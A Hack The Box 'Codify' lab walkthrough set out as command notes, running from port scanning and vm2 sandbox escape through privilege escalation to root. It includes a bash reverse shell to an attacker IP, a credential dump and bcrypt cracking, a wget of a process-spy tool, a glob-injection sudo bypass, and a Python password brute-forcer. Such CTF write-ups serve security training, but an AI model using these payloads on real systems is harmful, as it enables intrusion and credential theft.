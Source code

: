# 💎 HTB: Codify - Command Notes

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.239                # Fast full TCP port scan
nmap -p 22,80,3000 -sCV 10.10.11.239                  # Version & script scan on identified ports
head -1 /etc/hosts                                    # Confirm domain mapping to codify.htb
```

---

## 🧪 CVE-Based Exploitation

**Relevant CVEs for vm2 (v3.9.16):**

- [CVE-2023-32314](https://github.com/p4p1/vm2-cve-2023-32314)
- [CVE-2023-30547](https://github.com/p4p1/vm2-cve-2023-30547)
- [CVE-2023-37466](https://github.com/p4p1/vm2-cve-2023-37466)
- [CVE-2023-37903](https://github.com/p4p1/vm2-cve-2023-37903)

> Used payloads from these to gain command execution via sandbox escape.

---

## 🐚 Reverse Shell Access

```bash
# Listener on attacker box
nc -lvnp 443

# Payload sent via web shell
bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"

# Upgrade reverse shell
script /dev/null -c bash
stty raw -echo; fg
```

> Reverse shell lands as `svc` user.

---

## 🧼 Local Enumeration

```bash
ls -la                                        # Basic file listing
cd /home/joshua/                              # Access check for next user
ls /var/www                                   # Discover web app directories
ls editor/ contact/                           # Review contents of Node.js apps
cat index.js | grep 'app\.'                   # View all express routes in contact app
```

---

## 🧩 SQLite Enumeration

```bash
sqlite3 tickets.db                            # Open the database
.tables                                       # View all tables
.schema users                                 # Get table structure
select * from users;                          # Dump credentials
```

---

## 🔓 Cracking the User Hash

```bash
# Save hash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > joshua.hash

# Crack with hashcat (bcrypt mode 3200)
hashcat -m 3200 joshua.hash rockyou.txt
```

> Cracked to: `spongebob1`

---

## 🔑 [Privilege Escalation to Joshua](SSH)

```bash
su - joshua                                    # Use cracked password
sshpass -p spongebob1 ssh joshua@codify.htb    # Alternative SSH access
```

---

## 🔧 Privilege Escalation to Root

### 💡 Script Abused: `/opt/scripts/mysql-backup.sh`

```bash
sudo -l                                        # View sudo privileges
sudo /opt/scripts/mysql-backup.sh             # Run vulnerable backup script
```

#### 🧨 Bypass Password Check

```bash
echo "*" | sudo /opt/scripts/mysql-backup.sh  # Bypass using bash glob injection
```

> Works because `[[ $USER_PASS == $DB_PASS ]]` lacks quotes.

---

#### 🔭 Leak Root Password via Process Watch

```bash
# On attacker box
python -m http.server 80 -d /opt/

# On target
wget http://10.10.14.6/pspy64
chmod +x pspy64
./pspy64
```

> Watch for `-p<password>` appearing in `mysql` or `mysqldump` command.

---

#### 🧠 Brute-Force Root Password with Python

```python
# leak_password.py
import subprocess, string
leaked_password = ""
while True:
    for c in string.printable[:-5]:
        if c in '*\\%': continue
        print(f"\r{leaked_password}{c}", end="", flush=True)
        try:
            subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", shell=True, timeout=0.3)
        except subprocess.TimeoutExpired:
            leaked_password += c
            break
    else: break
print(f"\nPassword: {leaked_password}")
```

---

## 🧙‍♂️ Root Access

```bash
su -                                           # With leaked/brute-forced password
cat /root/root.txt
```